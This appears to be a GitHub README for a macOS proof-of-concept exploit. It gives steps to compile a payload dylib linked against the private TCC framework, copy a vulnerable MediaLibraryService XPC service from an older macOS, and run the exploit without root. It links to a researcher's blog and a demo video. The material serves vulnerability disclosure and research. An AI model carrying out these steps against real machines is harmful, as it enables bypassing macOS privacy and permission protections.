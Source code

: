 # Details
https://jhftss.github.io/
# Usage
1. Compile the payload: `clang payload.m -o /tmp/payload.dylib -dynamiclib -framework Foundation -framework Security -F/System/Library/PrivateFrameworks -framework TCC`
2. Copy the vulnerable XPC service `/System/Library/Frameworks/MediaLibrary.framework/Versions/A/XPCServices/com.apple.MediaLibraryService.xpc` from the old macOS to `/tmp`
3. Compile and run the `exploit` program directly without root
# Demo
https://youtu.be/3DkLUFmT2vY
